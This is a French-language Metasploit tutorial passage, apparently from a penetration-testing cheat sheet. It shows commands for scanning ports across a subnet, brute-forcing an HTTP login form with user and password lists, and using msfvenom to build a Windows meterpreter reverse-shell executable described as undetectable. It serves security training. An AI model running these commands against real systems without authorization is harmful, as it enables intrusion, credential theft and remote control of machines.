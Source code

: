 *   **Commande** :

    ```bash
    use auxiliary/scanner/portscan/tcp
    set RHOSTS 192.168.1.0/24
    run
    ```
* **Explication** :
  * Scanne les ports ouverts sur un réseau donné pour détecter des vulnérabilités.

***

#### 2. Réaliser une Attaque par Force Brute

*   **Commande** :

    ```bash
    use auxiliary/scanner/http/http_login
    set RHOSTS 192.168.1.10
    set TARGETURI /login
    set USER_FILE /path/to/users.txt
    set PASS_FILE /path/to/passwords.txt
    run
    ```
* **Explication** :
  * Utilise une liste de noms d'utilisateur et de mots de passe pour tester un formulaire de connexion.

***

### 🚀 Étape 4 : Msfvenom - Génération de Payloads

***

**Msfvenom** est utilisé pour générer des payloads personnalisés et les encoder pour les rendre indétectables.

***

#### 1. Générer un Payload Windows

*   **Commande** :

    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe -o payload.exe
    ```
* **Explication** :
  * `-p` : Spécifie le payload à utiliser (ici `reverse_tcp` pour une connexion inverse).
  * `LHOST` : Votre adresse IP.
  * `LPORT` : Le port d'écoute.
  * `-f exe` : Formate le payload en un fichier exécutable Windows.
  * `-o` : Spécifie le nom de sortie du fichier généré.

***
